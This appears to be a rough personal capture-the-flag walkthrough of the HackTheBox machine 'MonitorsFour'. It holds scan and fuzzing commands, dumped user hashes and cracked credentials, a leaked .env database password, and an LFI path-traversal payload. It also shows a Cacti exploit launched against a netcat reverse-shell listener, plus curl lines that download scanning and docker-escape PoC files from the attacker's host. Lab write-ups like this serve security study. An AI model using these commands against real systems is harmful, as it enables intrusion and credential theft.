10.129.14.62

```
                                                                                                                                                                                                          
---------------------Starting Port 
Scan-----------------------                                                                                                                                             
                                                                                                                                                                                                           


PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman


---------------------Starting Script Scan-----------------------
                                                                                                                                                                                                           


PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx
|_http-title: Did not follow redirect to http://monitorsfour.htb/
5985/tcp open  wsman?


```

we modify /etc/hosts file

We are greeted with



1. since its a webpage lets dirb

> gobuster dir --url http://monitorsfour.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

/contact              (Status: 200) [Size: 367]



/login                (Status: 200) [Size: 4340]
/user                 (Status: 200) [Size: 35]
/static               (Status: 301) [Size: 162] [--> http://monitorsfour.htb/static/]
/views                (Status: 301) [Size: 162] [--> http://monitorsfour.htb/views/]


2. we have a login page


3. we can use sqli on the login.

4. we can try and look at the forgot password portal.

5. we can explore port 5985.

its evilwinrm so would require a password.

6. LFI - able to access local files

from /contacts we can say we can see local files




7. need to fuzz more, some page with parameter?

He must be talking about the login page.





got with token fuzz

http://monitorsfour.htb/user?token=0

[{"id":2,"username":"admin","email":"admin@monitorsfour.htb","password":"56b32eb43e6f15395f6c46c1c9e1cd36","role":"super user","token":"8024b78f83f102da4f","name":"Marcus Higgins","position":"System Administrator","dob":"1978-04-26","start_date":"2021-01-12","salary":"320800.00"},

{"id":5,"username":"mwatson","email":"mwatson@monitorsfour.htb","password":"69196959c16b26ef00b77d82cf6eb169","role":"user","token":"0e543210987654321","name":"Michael Watson","position":"Website Administrator","dob":"1985-02-15","start_date":"2021-05-11","salary":"75000.00"},

{"id":6,"username":"janderson","email":"janderson@monitorsfour.htb","password":"2a22dcf99190c322d974c8df5ba3256b","role":"user","token":"0e999999999999999","name":"Jennifer Anderson","position":"Network Engineer","dob":"1990-07-16","start_date":"2021-06-20","salary":"68000.00"},

{"id":7,"username":"dthompson","email":"dthompson@monitorsfour.htb","password":"8d4a7e7fd08555133e056d9aacb1e519","role":"user","token":"0e111111111111111","name":"David Thompson","position":"Database Manager","dob":"1982-11-23","start_date":"2022-09-15","salary":"83000.00"}]


8. Password cracking

hashcat -m 0 56b32eb43e6f15395f6c46c1c9e1cd36 /usr/share/wordlists/rockyou.txt.gz

hashcat -m 0 69196959c16b26ef00b77d82cf6eb169 /usr/share/wordlists/rockyou.txt.gz

hashcat -m 0 2a22dcf99190c322d974c8df5ba3256b /usr/share/wordlists/rockyou.txt.gz

hashcat -m 0 8d4a7e7fd08555133e056d9aacb1e519 /usr/share/wordlists/rockyou.txt.gz



only one password recieved from first, rest all exhausted.

user : admin
password : wonderful1

9. Exploring the website



got access to dashboard


added myself as a user



able to generate the api key

f794847502ce448623



tried loggin in myself admin but has lesser privlege than the superuser.

10. using winrm with the generated key



did not work

11. check for following

lfi
monitorsfour.htb/contact?page=../../../../etc/passwd

fuzzing with token

ffuf -u http://monitorsfour.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt -H "Authorization: Bearer [YOUR_API_KEY]"

ffuf -u http://monitorsfour.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt -H "Authorization: Bearer f794847502ce448623"

```
.htaccess               [Status: 403, Size: 146, Words: 3, Lines: 8, Duration: 345ms]
.hta                    [Status: 403, Size: 146, Words: 3, Lines: 8, Duration: 345ms]
                        [Status: 200, Size: 13688, Words: 3598, Lines: 339, Duration: 351ms]
.htpasswd               [Status: 403, Size: 146, Words: 3, Lines: 8, Duration: 333ms]
contact                 [Status: 200, Size: 367, Words: 34, Lines: 5, Duration: 318ms]
controllers             [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 358ms]
forgot-password         [Status: 200, Size: 3099, Words: 164, Lines: 84, Duration: 383ms]
login                   [Status: 200, Size: 4340, Words: 1342, Lines: 96, Duration: 318ms]
static                  [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 408ms]
user                    [Status: 200, Size: 35, Words: 3, Lines: 1, Duration: 438ms]
views                   [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 432ms]

```



12. following https://thecybersecguru.com/ctf-walkthroughs/mastering-monitorsfour-beginners-guide-from-hackthebox/

> rustscan -a $targetIp --ulimit 2000 -r 1-65535 -- -A sS -Pn

> dirsearch -u http://monitorsfour.htb -x 404

```
08:01:58] Starting: 
[08:02:09] 200 -   97B  - /.env                                             
[08:02:13] 403 -  548B  - /.ht_wsr.txt                                      
[08:02:13] 403 -  548B  - /.htaccess.bak1                                   
[08:02:13] 403 -  548B  - /.htaccess.sample                                 
[08:02:13] 403 -  548B  - /.htaccess.save
[08:02:13] 403 -  548B  - /.htaccess.orig
[08:02:13] 403 -  548B  - /.htaccess_extra                                  
[08:02:13] 403 -  548B  - /.htaccessBAK                                     
[08:02:13] 403 -  548B  - /.htaccess_sc
[08:02:13] 403 -  548B  - /.htaccess_orig
[08:02:13] 403 -  548B  - /.htaccessOLD                                     
[08:02:13] 403 -  548B  - /.htaccessOLD2
[08:02:13] 403 -  548B  - /.htm
[08:02:13] 403 -  548B  - /.html                                            
[08:02:13] 403 -  548B  - /.htpasswd_test                                   
[08:02:13] 403 -  548B  - /.htpasswds                                       
[08:02:13] 403 -  548B  - /.httr-oauth                                      
[08:03:25] 200 -  367B  - /contact                                          
[08:03:26] 403 -  548B  - /controllers/                                     
[08:04:06] 200 -    4KB - /login                                            
[08:05:04] 301 -  162B  - /static  ->  http://monitorsfour.htb/static/      
[08:05:22] 200 -   35B  - /user                                             
[08:05:29] 301 -  162B  - /views  ->  http://monitorsfour.htb/views/        
                                                                            
```

found .env



DB_HOST=mariadb
DB_PORT=3306
DB_NAME=monitorsfour_db
DB_USER=monitorsdbuser
DB_PASS=f37p2j8f4t0r

subdomain enumeration
> ffuf -c -u http://monitorsfour.htb/ -H "Host: FUZZ.monitorsfour.htb" -w subdomains-top1million-20000.txt -fw 3

we got a subdomain cacti





we have an exploit for cacti 1.8.2

https://github.com/hexcowboy/CVE-2020-8813/blob/main/exploit.py

https://github.com/mhaskar/CVE-2020-8813

python Cacti-PreAuth-Exploit.py http://cacti.monitorsfour.htb 10.10.17.51 1337

exploits are not working

we can try logging in as admin wonderful1
 didnt work so used marcus wonderful1

 

git clone https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC.git

nc -lnvp 60001

python exploit.py -u marcus -p wonderful1 -url http://cacti.monitorsfour.htb -i 10.10.17.51 -l 60001



for userflag

13. escaping the docker container

looking at the network

```
www-data@821fbd6a43fa:~/html/cacti$ ip route
ip route
default via 172.18.0.1 dev eth0 
172.18.0.0/16 dev eth0 proto kernel scope link src 172.18.0.3 
www-data@821fbd6a43fa:~/html/cacti$ cat /etc/resolve.conf
cat /etc/resolve.conf
cat: /etc/resolve.conf: No such file or directory
www-data@821fbd6a43fa:~/html/cacti$ cat /etc/resolv.conf
cat /etc/resolv.conf
# Generated by Docker Engine.
# This file can be edited; Docker Engine will not make further changes once it
# has been modified.

nameserver 127.0.0.11
options ndots:0

# Based on host file: '/etc/resolv.conf' (internal resolver)
# ExtServers: [host(192.168.65.7)]
# Overrides: []
# Option ndots from: internal
www-data@821fbd6a43fa:~/html/cacti$ ifconfig
ifconfig
bash: ifconfig: command not found
www-data@821fbd6a43fa:~/html/cacti$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host proto kernel_lo 
       valid_lft forever preferred_lft forever
2: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 06:86:03:02:c1:db brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.18.0.3/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
www-data@821fbd6a43fa:~/html/cacti$ 

```

14. Putting fscan32 binary

python -m http.sever

curl 10.10.17.51:8000/Downloads/fscan32 -o fscan

15. docker exploitation

curl 10.10.17.51:8000/codeplay/poc-2025-9074/pocx -o poc

curl 10.10.17.51:8000/codeplay/poc-2025-9074/dockers.sh -o dockers.sh




